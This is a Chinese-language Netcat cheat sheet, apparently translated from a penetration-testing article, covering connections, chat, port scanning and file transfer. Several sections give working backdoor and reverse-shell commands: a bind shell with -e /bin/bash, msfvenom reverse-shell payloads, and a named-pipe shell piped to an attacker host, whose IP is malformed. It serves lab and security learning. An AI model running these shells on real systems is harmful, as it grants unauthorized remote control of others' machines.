 ## Netcat综合指南

- Introduction [^1]

- Features

  - 充当简单的TCP / UDP / SCTP / SSL客户端，用于与Web服务器，Telnet服务器，邮件服务器和其他TCP / IP网络服务进行交互。通常，理解服务（解决问题，发现安全漏洞或测试自定义命令）的最佳方法是使用Netcat与其进行交互。您可以控制发送的每个字符并查看未经过滤的原始响应
  - 将TCP / UDP / SCTP流量重定向或代理到其他端口或主机。
    这可以使用简单的重定向（发送到端口的所有内容自动在您预先指定的其他位置中继）或通过充当SOCKS或HTTP代理来完成，以便客户端指定自己的目标。
    在客户端模式下，Netcat可以通过匿名链接或目标链接到目标认证代理
  - 加密与SSL的通信，并通过IPv4或IPv6传输。
  - 充当执行系统命令的网络网关，I / O重定向到网络。
    它被设计为像Unix实用程序cat一样工作，但对于网络。
  - 充当连接代理，允许两个（或更多）客户端通过第三个（代理）服务器相互连接。
    这使得隐藏在NAT网关后面的多台机器能够相互通信，并且还可以实现简单的Netcat聊天模式。

- Getting start with NC

  - `nc -h`

- Connecting to a Server

  - `nc 192.168.1.12 21`

- Fetching HTTP header

  - 我们可以使用netcat来获取有关任何Web服务器的信息。让我们回到之前连接的服务器。
    它还在端口80上运行HTTP服务。因此，我们使用netcat连接到HTTP服务，就像我们之前做的那样。
    现在连接到服务器后，我们使用的选项将为我们提供标头以及在远程服务器上运行的HTTP服务的源代码。
  - `nc 192.168.1.12 80`
  - HEAD/HTTP/1.0

- Chatting 

  - Netcat还可用于在两个用户之间进行聊天。我们需要在聊天之前建立连接。
    要做到这一点，我们将需要两个设备。一个人将扮演发起者的角色，一个人将成为开始对话的倾听者，因此一旦建立了连接，就可以从两端进行通信。在这里，我们将创建一个使用不同操作系统在两个用户之间聊天的场景。
  - `nc -lvvp 4444` [^2]
  - `nc 192.168.50.220 4444`

- Creating a Backdoor

  - `nc -l -p 2222 -e /bin/bash` [^3]
  - `nc 192.168.1.35 2222`

- Verbose Mode [^4]

  - `nc 192.168.1.6 21 -v`

- Save Output to Disk

  - `nc 192.168.1.6 21 -v -o /root/output.txt`

- Port Scanning

  - TCP Scan
    - `nc -v -n -z -w 2 192.168.1.6 21-1100 `[^5]
  - TCP Delay Scan
    - `nc -z -v -i 10 192.168.1.6 21-80`
  - UDP Scan
    - `nc -vzu 192.168.1.6 80-90`

- Reverse TCP Shell Exploitation [^6]

  - `msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.35 lport=2124 -f exe > /root/Desktop/1.exe`
  - `nc -lvvp 2124`

- Randomize Port [^7]

  - `nc -lv -r`

- File Transfer [^8]

  - ```shell
    #target host
    nc -v -w 30 -p 8888 -l < C:\netcat\output.txt
    #kali
    nc -v -w 2 192.168.1.4 8888 > output.txt
    ```

- Reverse Netcat Shell Exploitation

  - ```shell
    #kali
    msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.35 lport=6666 R 
    #将生成的命令在target host上执行
    ```

  - ```shell
    #target host
    mknod /tmp/backpipe p
    /bin/sh 0</tmp/backpipe | nc 192.168.1.35443 1>/tmp/backpipe
    #kali
    nc -lvp 443 
    ```

- Banner grabbing

  - `nc -v 192.168.1.2 22`

[原文](https://www.hackingarticles.in/comprehensive-guide-on-netcat/)

---

[^1]: Netcat或nc是一种实用工具，它使用TCP和UDP连接在网络中进行读写。
[^2]: -l 监听模式、-vv 可以使用一个，多一个更详细、-p 端口
[^3]: 这将在系统上打开一个侦听器，它将命令shell或Linux bash shell传递给连接系统。
[^4]: 在netcat中，Verbose是一种可以使用[-v]参数启动的模式。现在详细模式生成扩展信息。基本上，我们将使用netcat连接到服务器两次，以查看正常模式和详细模式之间的区别.当我们将[-v]添加到netcat命令时，它会显示有关连接到服务器时其性能的进程的信息。
[^5]: [-v]：表示详细模式、[-n]：表示仅数字的IP地址、[-z]：表示零-I / O模式[用于扫描]、 [-w]：表示连接超时和最终网络读取
[^6]: 我们可以使用msfvenom和netcat的组合来利用系统。我们将使用msfvenom创建有效负载和netcat来监听会话。首先，我们必须创建一个有效载荷。
[^7]: 如果我们无法决定我们自己的端口来启动监听器或建立我们的Netcat连接。
[^8]: 在这里，我们将创建一个场景，我们将文件从Windows系统传输到Kali Linux系统。要从Windows发送文件，我们将使用以下命令
